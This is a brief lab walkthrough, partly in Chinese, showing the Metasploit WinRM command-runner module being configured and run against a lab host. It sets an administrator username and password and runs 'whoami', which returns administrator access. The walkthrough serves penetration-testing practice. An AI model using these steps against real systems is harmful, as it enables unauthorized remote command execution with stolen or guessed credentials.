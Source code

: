 This module runs arbitrary Windows commands using the WinRM Service

WinRM 命令运行程序

该模块使用 WinRM 服务运行任意 Windows 命令

重启了Lab，Target IP Address : 10.0.16.20。

```
msf5 > search winrm_cmd

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/winrm/winrm_cmd                   normal  No     WinRM Command Runner


msf5 > use auxiliary/scanner/winrm/winrm_cmd
msf5 auxiliary(scanner/winrm/winrm_cmd) > show options

Module options (auxiliary/scanner/winrm/winrm_cmd):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD       ipconfig /all    yes       The windows command to run
   DOMAIN    WORKSTATION      yes       The domain to use for Windows authentification
   PASSWORD                   yes       The password to authenticate with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     5985             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                yes       The number of concurrent threads (max one per host)
   URI       /wsman           yes       The URI of the WinRM service
   USERNAME                   yes       The username to authenticate as
   VHOST                      no        HTTP server virtual host

msf5 auxiliary(scanner/winrm/winrm_cmd) > setg RHOSTS 10.0.16.20
RHOSTS => 10.0.16.20
msf5 auxiliary(scanner/winrm/winrm_cmd) > set USERNAME administrator
USERNAME => administrator
msf5 auxiliary(scanner/winrm/winrm_cmd) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 auxiliary(scanner/winrm/winrm_cmd) > set CMD whoami
CMD => whoami
msf5 auxiliary(scanner/winrm/winrm_cmd) > run

[+] 10.0.16.20:5985      : server\administrator

[+] Results saved to /root/.msf4/loot/20230128200653_WinRM_10.0.16.20_winrm.cmd_result_895726.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

